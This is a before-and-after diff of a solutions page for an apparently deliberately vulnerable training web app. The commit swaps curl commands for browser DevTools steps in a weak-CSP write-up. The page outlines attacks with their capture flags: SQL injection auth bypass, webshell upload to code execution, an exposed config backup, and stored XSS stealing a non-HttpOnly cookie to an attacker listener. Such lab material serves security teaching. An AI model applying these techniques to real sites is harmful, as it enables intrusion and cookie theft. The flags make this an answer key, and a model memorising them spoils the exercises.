

Before and after one commit to wolinskis/css-lab-kit, a Markdown page: webapp/SOLUTIONS.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
CSP write-up uses DevTools (Console/Network) instead of curl
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/webapp/SOLUTIONS.md
+++ b/webapp/SOLUTIONS.md
@@ -17,7 +17,7 @@ Try each vuln yourself first (checklist Phase 0 → detect → exploit). `U=http
 | File upload | `FLAG{w3bshell_upl0ad_to_rce}` | webshell → `cat private/upload_flag.txt` |
 | Info disclosure | `FLAG{c0nfig_backup_left_in_webroot}` | `GET /config.php.bak` |
 | Weak creds | admin's note (above) | log in as `admin` with the cracked/guessed password |
-| Weak CSP (+ cookie theft) | `FLAG{xss_st34ls_the_c00kie}` (via stored XSS) | `curl -sD - -o /dev/null $U/index.php | grep -i csp`; non-HttpOnly cookie + unsafe-inline |
+| Weak CSP (+ cookie theft) | `FLAG{xss_st34ls_the_c00kie}` (via stored XSS) | DevTools → Network → Response Headers (CSP) + Console `document.cookie`; non-HttpOnly cookie + unsafe-inline |
 
 ## 1. SQL injection — auth bypass + UNION  (`login.php`, `index.php?q=`)
 **Answer:** login is a string-concatenated query → bypass with a comment; search is injectable → UNION-dump every credential.
@@ -92,12 +92,12 @@ run, `img-src *` lets a beacon exfiltrate to any host, and the session/flag cook
 `HttpOnly`**, so JavaScript can read it. Chained with the stored XSS this steals the cookie:
 `FLAG{xss_st34ls_the_c00kie}`.
 
-**Command:**
+**Command (read the header/cookie in the browser — no terminal needed):**
 ```
-# read the RESPONSE headers (server -> you): the CSP and the Set-Cookie both live here
-curl -sD - -o /dev/null "$U/index.php" | grep -iE 'content-security-policy|set-cookie'
-#   Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; img-src *
-#   Set-Cookie: flag=FLAG{xss_st34ls_the_c00kie}          <- note: no HttpOnly -> JS can read it
+# 1. See the CSP:  DevTools (F12) -> Network -> reload (Ctrl+R) -> click "index.php" -> Response Headers
+#      Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; img-src *
+# 2. See the cookie:  DevTools -> Console ->  document.cookie
+#      flag=FLAG{xss_st34ls_the_c00kie}    (it's visible -> cookie has NO HttpOnly -> JS can read it)
 
 # attacker listener (receives the stolen cookie in its access log)
 python3 -m http.server 9001
@@ -121,9 +121,10 @@ python3 -m http.server 9001
 to known hosts (and set `connect-src`); set the cookie **`HttpOnly; Secure; SameSite=Strict`** — `HttpOnly`
 alone would have stopped the theft even with the weak CSP.
 
-> Finding the headers: browser **DevTools → Network → click the document → Response Headers**, or
-> `curl -I` / `curl -sD -`. Request headers are what the browser sends; **CSP and Set-Cookie are response
-> headers** (server -> browser).
+> Finding the headers (all in the browser):
+> - **CSP:** DevTools (F12) → **Network** → reload (Ctrl+R) → click the document (`index.php`) → **Response Headers**.
+> - **Cookie:** DevTools → **Console** → type `document.cookie` (or **Application/Storage → Cookies**).
+> Request headers are what the browser sends; **CSP and Set-Cookie are response headers** (server → browser).
 
 ## 9. Information disclosure — exposed config backup leaks admin creds
 
````
